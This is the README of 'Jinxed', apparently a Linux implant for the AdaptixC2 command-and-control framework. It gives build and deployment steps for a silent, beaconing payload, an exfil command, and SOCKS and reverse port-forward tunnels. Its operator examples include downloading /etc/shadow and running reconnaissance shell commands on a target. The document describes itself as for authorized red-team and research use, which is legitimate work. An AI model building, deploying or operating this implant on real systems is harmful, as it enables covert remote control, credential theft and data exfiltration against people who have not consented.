

# Jinxed, a native Linux agent for AdaptixC2

Jinxed is a native POSIX agent for [AdaptixC2](https://github.com/Adaptix-Framework/AdaptixC2), packaged as a teamserver extender. It implements the Adaptix beacon wire protocol on Linux instead of emulating Windows behavior. Sessions, tasking, file and process browsers, downloads, jobs, tunnels and the remote terminal all work through the stock teamserver and client. Windows-only primitives (BOF, token impersonation, SMB/TCP pivots, registry, WMI) are not implemented.

```
   Adaptix client  ──►  Teamserver  ──►  BeaconHTTP listener  ──►  Jinxed agent
        │                  │                                            │
        └── jinxed_linux.axs│── agent_jinxed_linux.so ──────────────────┘
            (command tree)  └── profiles / pack / unpack / build
```

The wire format matches the shipped beacon: same opcodes, same RC4, same little-endian input and big-endian output framing. The teamserver cannot tell the difference, and the GUI renders Linux sessions with its native file and process browsers.

There are 22 cross-platform commands plus 8 Linux-specific ones. That covers async process jobs, a real PTY terminal, chunked download and upload, SOCKS4a/5 and port forwarding. The agent is static and uses only the Go standard library (`CGO_ENABLED=0`). It cross-compiles to `amd64`, `arm64`, `386` and `arm`. Beacon behavior is the same as the Windows agent: sleep and jitter, working hours, kill date, interactive mode, output batching, immediate beacon when output is pending, per-session keys.

## Screenshot



## Feature matrix

| Capability | Windows beacon | Jinxed Linux |
| --- | :---: | :---: |
| HTTP(S) transport, proxy, URI/UA/Host rotation | yes | yes |
| TCP / SMB / DNS transports | yes | no (Windows-only transports) |
| Registration, session key, sleep/jitter/working-time/killdate | yes | yes |
| File browser (`ls`, `cat`, `cp`, `mv`, `rm`, `mkdir`, `chmod`, `pwd`, `cd`) | yes | yes |
| Process browser (`ps list`, `ps kill`, `ps run`) | yes | yes |
| Output-capturing process jobs, job list/kill | yes | yes |
| Remote shell / terminal | yes (`cmd.exe`) | yes (`/bin/sh`, real PTY) |
| Download with pause/resume/cancel | yes | yes |
| Upload (1 MiB staging) | yes | yes |
| SOCKS4a / SOCKS5 proxy, local and reverse port forwarding | yes | yes |
| Environment manager (`env`) | no | yes |
| Socket table (`netstat`), interfaces (`ifconfig`) | no | yes |
| Host metadata (`sysinfo`, `uname`, `users`) | partial | yes |
| Service control (`service`) | no | yes |
| BOF, token impersonation, pivots, registry, WMI, injection | yes | no |

The full audit (every discovered command, its opcode, its request/response layout and the reason for each exclusion) is in [`docs/COMMAND_MATRIX.md`](docs/COMMAND_MATRIX.md). The byte-level contract is in [`docs/PROTOCOL.md`](docs/PROTOCOL.md).

## Requirements

| Component | Version |
| --- | --- |
| AdaptixC2 teamserver | v1.2 (module `github.com/Adaptix-Framework/axc2 v1.2.0`) |
| Go toolchain | exactly the version used to build the teamserver (shipped v1.2 binary: `go1.25.4`, `GOEXPERIMENT=jsonv2,greenteagc`) |
| Build host | any Linux with the Go toolchain and `sh` |
| Target | Linux, `amd64` / `arm64` / `386` / `arm`; no libc required |

The exact toolchain matters. Go plugins share the runtime and package build IDs with the host binary. A different Go version, a different `GOEXPERIMENT` set or `-trimpath` produces an unloadable plugin (`plugin was built with a different version of package …`). The bundled `Makefile` pins the values used by AdaptixC2 v1.2. Override `GOEXPERIMENT=` if your server was built differently.

## Install

### Build the extender

```bash
cd src/extender
make            # -> dist/agent_jinxed_linux.so, dist/config.yaml, dist/ax_config.axs, dist/src_agent/
```

`make` stages the agent source into `dist/src_agent`. `BuildPayload` compiles payloads from that directory at runtime.

### Add it to the teamserver

```bash
# from the directory that contains your teamserver profile.yaml
mkdir -p extenders/jinxed_linux
cp -r /path/to/jinxed-agent/src/extender/dist/* extenders/jinxed_linux/
```

Add the extender to `profile.yaml`:

```yaml
Teamserver:
  extenders:
    - "extenders/beacon_listener_http/config.yaml"
    - "extenders/jinxed_linux/config.yaml"      # <-- add this
```

Restart the teamserver. The startup log should not contain a `failed to open plugin` line. Clients receive the `jinxed_linux` command tree automatically; the teamserver distributes `ax_config.axs`.

### Build a payload

In the Adaptix client: **Payloads → Create → `jinxed_linux`**, choose a `BeaconHTTP` listener, architecture (`amd64`, `arm64`, `386`, `arm`), sleep, jitter, optional kill date or working time, then Build. The extender cross-compiles the agent on the teamserver host and returns a static ELF named `jinxed_<arch>`.

Run it on the target:

```bash
chmod +x jinxed_amd64
./jinxed_amd64            # silent by default
./jinxed_amd64 -debug     # transport diagnostics on stderr
./jinxed_amd64 -version
```

The session appears in the client with the Linux hostname, distro, kernel and architecture.

### Standalone agent build

The agent compiles on its own. A binary built from the checked-in placeholder profile refuses to run because it has no listener configuration:

```bash
cd src/agent
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -trimpath -ldflags="-s -w" -o jinxed_amd64 .
./jinxed_amd64      # -> jinxed: embedded profile is missing or truncated
```

To produce a runnable payload manually, use the extender build path. It injects the RC4 profile into `zz_profile_gen.go` before compiling. For CI or troubleshooting you can build against a listener profile exported from a live server:

```bash
cd src/extender
JINXED_LISTENER_JSON=/tmp/listener.json \
JINXED_AGENT_OUT=/tmp/jinxed_amd64 \
go test -run TestBuildPayloadFromListener -v .
```

## Commands

Type `help` in a session console, or see the tables below. All commands use the teamserver's normal argument parser (tab completion, validation, examples).

| Area | Commands |
| --- | --- |
| Files | `cat`, `cd`, `ls`, `pwd`, `cp`, `mv`, `rm`, `mkdir`, `chmod`, `disks` |
| Transfer | `download`, `upload`, `exfil start\|stop\|cancel <fid>` |
| Execution | `ps list`, `ps kill <pid>`, `ps run [-o] <cmd>`, `shell <cmd>`, `jobs list\|kill <id>` |
| Session | `getuid`, `sleep <time> [jitter]`, `profile killdate\|workingtime\|download.chunksize`, `terminate thread\|process`, `interact` |
| Tunnels | `socks start <port> [-h addr] [-socks4] [-auth user pass]`, `socks stop <port>`, `lportfwd start\|stop`, `rportfwd start\|stop` |
| Host | `sysinfo`, `uname`, `users`, `ifconfig`, `netstat`, `env list\|get\|set\|unset`, `service list\|status\|start\|stop\|restart\|enable\|disable` |

Examples:

```
jinxed_linux (10.10.14.7) » ls /etc
jinxed_linux (10.10.14.7) » cat /etc/os-release
jinxed_linux (10.10.14.7) » ps run -o /usr/bin/id
jinxed_linux (10.10.14.7) » shell uname -a; id; ss -lntp
jinxed_linux (10.10.14.7) » download /etc/shadow
jinxed_linux (10.10.14.7) » socks start 1080
jinxed_linux (10.10.14.7) » rportfwd start 4444 127.0.0.1 22
jinxed_linux (10.10.14.7) » sysinfo
jinxed_linux (10.10.14.7) » interact
```

`ps run` executes the command line directly, with no implicit shell. `shell` wraps it in `/bin/sh -c`. Both run in their own process group and can be stopped with `jobs kill`.

## Repository layout

```
jinxed-agent/
├── client/jinxed_linux.axs     operator command tree, menus, payload UI
├── docs/                       command matrix, protocol, architecture
├── src/agent/                  standalone Linux agent (stdlib only)
├── src/extender/               Adaptix teamserver plugin (+ e2e test)
└── Makefile                    build / test / package helpers
```

## Building

```bash
make            # extender plugin + staged dist/
make agent      # standalone agent for amd64 (placeholder profile)
make test       # full end-to-end protocol test
make clean
```

Real payloads are cross-compiled by the extender at build time with `GOOS=linux GOARCH=<arch> CGO_ENABLED=0`. Manual equivalent:

```bash
CGO_ENABLED=0 GOOS=linux GOARCH=arm64 go build -trimpath -buildvcs=false \
  -ldflags="-s -w" -o jinxed_arm64 .
```

## Compatibility

| Item | Value |
| --- | --- |
| AdaptixC2 | v1.2 (v1.1 works with matching `axc2` and toolchain) |
| `axc2` module | `v1.2.0` |
| Agent watermark | `c0de11fe` |
| Listener types | `BeaconHTTP` |
| Agent OS reported | `OS_LINUX` (`2`), codepage 65001 (UTF-8) |
| Architectures | `amd64`, `arm64`, `386`, `arm` |

## Legal

This software is for authorized security testing, red-team engagements, CTF environments and research on systems you own or have explicit written permission to test. Unauthorized use against systems you do not own is illegal in most jurisdictions.

Licensed under the GNU General Public License v3.0, same as AdaptixC2. See [`LICENSE`](LICENSE).
